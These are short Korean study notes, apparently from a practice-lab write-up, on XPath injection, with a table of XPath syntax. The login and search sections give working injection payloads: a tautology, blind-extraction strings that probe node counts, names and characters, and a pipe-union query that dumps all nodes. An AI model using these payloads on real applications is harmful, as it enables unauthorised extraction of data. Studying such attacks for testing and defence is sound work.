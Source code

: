 SQL Injection과 비슷하지만 XML 문법 숙지가 필요하다.

#### Xpath 명령어
값 | 의미
--- | ---
`/` | 최상위 노드
`//` | 현재 노드로부터 모든 노드 조회  
`*` |	모든 노드 조회
`.` |	현재 노드
`..` |	현재 상위 노드 접근
`parent` |	현재 노드의 부모 노드
`child` |	현재 노드의 자식 노드
`[]` |	조건문
`node()` |	현재 노드로부터 모든 노드 조회

### XML/Login
`' or 1=1 or '`를 입력하여 반응을 확인하고, 가운데의 조건을 적절히 조절하여 정보를 획득할 수 있다.

`neo' and count(../child::*) = 6 or 'a'='b`  
`neo' and string-length(name(parent::*)) = 6 or 'a'='b`  
`neo' and substring(name(../child::*[position()=1]), 1, 1) = 'h' or 'a'='b`

### XML/Search
`//hero[contains(genre, '$genre')]/movie`  
`//hero[contains(genre, '')] | //* | a[('')]/movie`

`$genre` 대신에 파이프라인과 명령어를 삽입하여 다른 결과를 출력하도록 조작한다.

